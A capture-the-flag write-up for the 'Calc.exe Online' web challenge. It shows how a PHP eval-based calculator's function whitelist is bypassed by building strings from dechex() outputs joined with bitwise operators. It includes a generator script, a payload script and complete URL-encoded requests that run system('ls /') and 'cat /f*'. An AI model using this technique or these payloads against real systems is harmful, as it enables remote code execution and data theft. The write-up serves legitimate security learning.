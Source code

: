 # Calc.exe Online
**Category: Web** 

This challenge presents a calculator application where user provided expressions get evaluated:

![site](images/site.png)

## Exploring the Application

Looking at the page source, there is an anchor element that doesn't render on the page:
```html
<a href="/?source"></a>
```

The full source can be seen [here](source.html).

The important parts to calculate the expression are below:

```html
<div class="card-content">
    = <?= @safe_eval($_GET['expression']) ?>
</div>
```

```php
function safe_eval($code)
{
    if (strlen($code) > 1024) return "Expression too long.";
    $code = strtolower($code);
    $bad = is_safe($code);
    $res = '';
    if (strlen(str_replace(' ', '', $bad)))
        $res = "I don't like this: " . $bad;
    else
        eval('$res=' . $code . ";");
    return $res;
}
```
If our input passes some sanity checks and the `is_safe` check, it gets run through an `eval` function, and then rendered on the page. Since `eval` will run php commands, we will want to find a way of getting some system commands to run here.

```php
function is_safe($query)
{
    $query = strtolower($query);
    preg_match_all("/([a-z_]+)/", $query, $words);
    $words = $words[0];
    $good = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh', 'ncr', 'npr', 'number_format'];
    $accept_chars = '_abcdefghijklmnopqrstuvwxyz0123456789.!^&|+-*/%()[],';
    $accept_chars = str_split($accept_chars);
    $bad = '';
    for ($i = 0; $i < count($words); $i++) {
        if (strlen($words[$i]) && array_search($words[$i], $good) === false) {
            $bad .= $words[$i] . " ";
        }
    }

    for ($i = 0; $i < strlen($query); $i++) {
        if (array_search($query[$i], $accept_chars) === false) {
            $bad .= $query[$i] . " ";
        }
    }
    return $bad;
}
```
This function ensures that our input is only made up using a whitelist of math functions. Also that the input only uses approved characters. We need a way of running system commands that can be hidden within this whitelist.

## Designing an Exploit
I looked at the whitelist of functions and noticed that some of them return strings. For example: `dechex(10) = 'a'`. The approved character list grants us several bitwise operators that can be used (in addition to their math purpose) to transform strings into other strings. For example: `dechex(10)|dechex(3) = "s"`. The outputs from these functions can be concatenated with the "`.`" operator.

I wrote a program to generate arbitrary characters using this idea:

```php
<?php
$max = 15;
$result = array();
for ($i = 0; $i < $max; $i++) {
    for ($j = 0; $j < $max; $j++) {
        for ($k = 0; $k < $max; $k++) {
            $char = dechex($i) | dechex($j) | dechex($k);
            if (array_key_exists($char, $result) || preg_match('/[^\x20-\x7e]/', $char)) {
                continue;
            }
            echo '"' . $char . '": ' . '"(dechex('.$i.')|dechex('.$j.')|dechex('.$k.'))",' . PHP_EOL;
            $result[$char] = 1;
        }
    }
}
?>
```

```sh
$ php characters.php
"0": "(dechex(0)|dechex(0)|dechex(0))",
"1": "(dechex(0)|dechex(0)|dechex(1))",
"2": "(dechex(0)|dechex(0)|dechex(2))",
"3": "(dechex(0)|dechex(0)|dechex(3))",
"4": "(dechex(0)|dechex(0)|dechex(4))",
"5": "(dechex(0)|dechex(0)|dechex(5))",
"6": "(dechex(0)|dechex(0)|dechex(6))",
"7": "(dechex(0)|dechex(0)|dechex(7))",
"8": "(dechex(0)|dechex(0)|dechex(8))",
"9": "(dechex(0)|dechex(0)|dechex(9))",
"q": "(dechex(0)|dechex(0)|dechex(10))",
"r": "(dechex(0)|dechex(0)|dechex(11))",
"s": "(dechex(0)|dechex(0)|dechex(12))",
"t": "(dechex(0)|dechex(0)|dechex(13))",
"u": "(dechex(0)|dechex(0)|dechex(14))",
":": "(dechex(0)|dechex(2)|dechex(8))",
";": "(dechex(0)|dechex(2)|dechex(9))",
"v": "(dechex(0)|dechex(2)|dechex(13))",
"w": "(dechex(0)|dechex(2)|dechex(14))",
"<": "(dechex(0)|dechex(4)|dechex(8))",
"=": "(dechex(0)|dechex(4)|dechex(9))",
">": "(dechex(0)|dechex(6)|dechex(8))",
"?": "(dechex(0)|dechex(6)|dechex(9))",
"y": "(dechex(0)|dechex(8)|dechex(10))",
"z": "(dechex(0)|dechex(8)|dechex(11))",
"{": "(dechex(0)|dechex(8)|dechex(12))",
"|": "(dechex(0)|dechex(8)|dechex(13))",
"}": "(dechex(0)|dechex(8)|dechex(14))",
"~": "(dechex(2)|dechex(8)|dechex(13))",
"a": "(dechex(10)|dechex(10)|dechex(10))",
"c": "(dechex(10)|dechex(10)|dechex(11))",
"e": "(dechex(10)|dechex(10)|dechex(13))",
"g": "(dechex(10)|dechex(11)|dechex(13))",
"b": "(dechex(11)|dechex(11)|dechex(11))",
"f": "(dechex(11)|dechex(11)|dechex(13))",
"d": "(dechex(13)|dechex(13)|dechex(13))",
```

By updating the program to use all the different bitwise operators, I could generate a JSON file that I could reference later to create any payloads that I specify.

I wrote a program to read this file and create any payload I needed, hidden within math functions:

```python
#!/usr/bin/env python3

import json
import sys
import urllib.parse

if len(sys.argv) - 1 < 1:
    print('A command must be specified')
    exit(1)

payload = ''

with open('./chars.json') as chars_file:
    chars = json.load(chars_file)
    
    for index, char in enumerate(sys.argv[1]):
        if index != 0:
            payload += '.'
          
        payload += chars[char]
        payload += ''

    print(f"Payload:\n({payload})")
    print(f"URL Encoded:\n({urllib.parse.quote(payload)})")

```

The first thing I wanted to run was `system(ls)`. 

```sh
$ ./payload_generator.py 'system'
Payload:
((dechex(0)&dechex(0)|dechex(0)^dechex(12)).(dechex(0)&dechex(0)|dechex(8)^dechex(10)).(dechex(0)&dechex(0)|dechex(0)^dechex(12)).(dechex(0)&dechex(0)|dechex(0)^dechex(13)).(dechex(10)&dechex(10)|dechex(0)^dechex(4)).(dechex(10)&dechex(10)|dechex(4)^dechex(8)))
URL Encoded:
(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)

$ ./payload_generator.py 'ls'    
Payload:
((dechex(10)&dechex(11)|dechex(4)^dechex(8)).(dechex(0)&dechex(0)|dechex(0)^dechex(12)))
URL Encoded:
(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29)
```

Putting the two outputs together, I can make this GET request to list the files:

```
GET /?expression=(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29)
```
```html
<div class="card-content">
= index.php
index.php                    
</div>
```

No flag file. The flag may be in `/` instead.

```sh
./payload_generator.py 'ls /'
Payload:
((dechex(10)&dechex(11)|dechex(4)^dechex(8)).(dechex(0)&dechex(0)|dechex(0)^dechex(12)).(dechex(0)&dechex(10)|dechex(0)^dechex(0)).(dechex(0)&dechex(10)|dechex(6)^dechex(9)))
URL Encoded:
(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29)
```

I can replace the part of the GET request that corresponded with the original `ls` argument with this new output to `ls /`:

```
GET /?expression=(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29)
```
```html
<div class="card-content">
= bin
boot
dev
etc
flag_a2647e5eb8e9e767fe298aa012a49b50
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var                    
</div>
```

And finally, we can read the flag by generating a payload to run `cat /f*`.

```sh
$ ./payload_generator.py 'cat /f*'
Payload:
((dechex(10)&dechex(10)|dechex(0)^dechex(2)).(dechex(10)&dechex(10)|dechex(0)^dechex(0)).(dechex(0)&dechex(0)|dechex(0)^dechex(13)).(dechex(0)&dechex(10)|dechex(0)^dechex(0)).(dechex(0)&dechex(10)|dechex(6)^dechex(9)).(dechex(10)&dechex(11)|dechex(0)^dechex(6)).(dechex(0)&dechex(10)|dechex(2)^dechex(8)))
URL Encoded:
(%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%282%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29.%28dechex%2810%29%26dechex%2811%29%7Cdechex%280%29%5Edechex%286%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%282%29%5Edechex%288%29%29)
```

```
GET /?expression=(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)(%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%282%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29.%28dechex%2810%29%26dechex%2811%29%7Cdechex%280%29%5Edechex%286%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%282%29%5Edechex%288%29%29)
```
```html
<div class="card-content">
= flag{d0_y0u_kn0w_th1s_15_a_rea1_w0rld_cha11enge}
flag{d0_y0u_kn0w_th1s_15_a_rea1_w0rld_cha11enge}
</div>
```
